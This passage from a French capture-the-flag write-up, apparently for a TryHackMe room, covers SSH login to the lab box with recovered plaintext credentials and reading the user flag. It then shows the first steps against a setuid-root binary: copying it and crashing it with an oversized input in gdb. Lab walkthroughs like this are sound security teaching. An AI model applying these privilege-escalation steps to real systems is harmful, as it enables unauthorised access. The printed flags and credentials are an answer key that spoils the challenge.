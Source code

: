 En mettant le nom d'utilisateur et le mot de passe, le programme nous dit que le mot de passe est la deuxième partie du mot de passe.  

**What is the user flag?**

On a maintenant les identifiants ssh qui sont : thedarktangent:Gf7MRr55n$@#PDuliL   

```bash
tim@kali:~/Bureau/tryhackme/write-up$ pwncat_ssh thedarktangent christmas.thm
pwncat thedarktangent@christmas.thm
[21:53:02] Welcome to pwncat 🐈!                                                                                                                                                                                               __main__.py:153
Password: ******************
[21:53:09] christmas.thm:22: registered new host w/ db                                                                                                                                                                          manager.py:504
(local) pwncat$                                                                                                                                                                                                                               
(remote) thedarktangent@ubuntu:/home/thedarktangent$ ls
apk  hc0n  user.txt
(remote) thedarktangent@ubuntu:/home/thedarktangent$ cat user.txt 
thm{hc0n_christmas_2019!!!}

Informacion:

Parte del usuario creado por César Calderón aka @_stuxnet
Si me ves por la h-c0n nos bebemos una birra <3 
```

On se connecte sur SSH avec les identifiants, on trouve notre flag dans le fichier user.txt.  
Le flag est : thm{hc0n_christmas_2019!!!} 

**What is the root flag?**  

```bash
(remote) thedarktangent@ubuntu:/home/thedarktangent$ ls -al hc0n
-rwsrwsr-x 1 root root 8952 Dec 10  2019 hc0n
```

On remarque le fichier hc0n est setuid.  

```bash
tim@kali:~/Bureau/tryhackme/write-up$ scp thedarktangent@christmas.thm:hc0n ./
thedarktangent@christmas.thm's password: 
hc0n                                     

tim@kali:~/Bureau/tryhackme/write-up$ chmod +x hc0n 
```

On télécharge le fichier pour analyse et on le rend exécutable.  

```bash
tim@kali:~/Bureau/tryhackme/write-up$ echo $(python -c "print('A'*200)") > in

tim@kali:~/Bureau/tryhackme/write-up$ gdb -q ./hc0n
Reading symbols from ./hc0n...
(No debugging symbols found in ./hc0n)
(gdb) r < in
Starting program: /home/tim/Bureau/tryhackme/write-up/hc0n < in
What will you be having for dinner !! (: 


Program received signal SIGSEGV, Segmentation fault.
0x0000000000400663 in main ()

```
